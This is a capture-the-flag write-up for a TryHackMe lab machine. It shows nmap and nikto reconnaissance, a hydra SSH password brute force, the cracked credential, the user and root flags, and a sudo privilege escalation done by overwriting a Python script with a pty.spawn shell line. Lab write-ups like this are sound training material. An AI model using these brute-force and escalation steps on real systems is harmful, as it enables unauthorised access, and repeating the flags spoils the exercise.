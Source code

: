 
# Writeup
Machine info
```
IP: 
OS: Linux
Based: Database (Rebis)
```
[Visite the room from TryHackMe](https://tryhackme.com/room/bsidesgtlibrary)

## Pentest Methodology
---
### Information gathering

run nmap scan for service detection and open ports
>~$ nmap -sV 10.10.187.205

open port
```
22: ssh
80: http
```
Run nmap for http enumeration over the port 80

>~$ nmap -p80 --script http-enum* 10.10.187.205 

Discovered file and Directory
```
/robots.txt: Robots file
|_  /images/: 
```

users that are comment on the blog
```
root
www-data
anonymous
```
Blog owned by meliodas maybe it can be part of the list user
<!--Posted on June 29th 2009 by meliodas-->

### Vulnerability Assessment
 
Run nikto against the target
>nikto -h 10.10.187.205

~~Nothing found with nikto~~

### Exploitation

Create a file called `users.txt` and add these names
```
meliodas
root
www-data
anonymous
```

Try to brute force ssh for each users using rockyou wordlist
```
~$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.187.205 -t 32
```
Credential found for user melodas
```
username: meliodas
password: iloveyou1
```
Login on the target using ssh
>~$ ssh meliodas@10.10.187.205

Read user meliodas contents
>~$ cat user.txt

user flag: 6d488cbb3f111d135722c33cb635f4ec

### Privilege Escalation

Let's check if `meliodas` can run command can we run as sudo
>~$ sudo -l

Result:
```
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Try if we can modify the file

>sudo nano ~/bak.py 

*We got an error message*

Try to make a copy of the file 
>~$ cp bak.py bak_old.py

*Yes it works*

To escalate our priv let's overwrite the file

>~$ echo 'import pty;pty.spawn("/bin/bash")' \> bak.py

Run the root terminal
>~$ sudo /usr/bin/python3 /home/meliodas/bak.py

>root@ubuntu:~# 

root lag: e8c8c6c256c35515d1d344ee0488c617

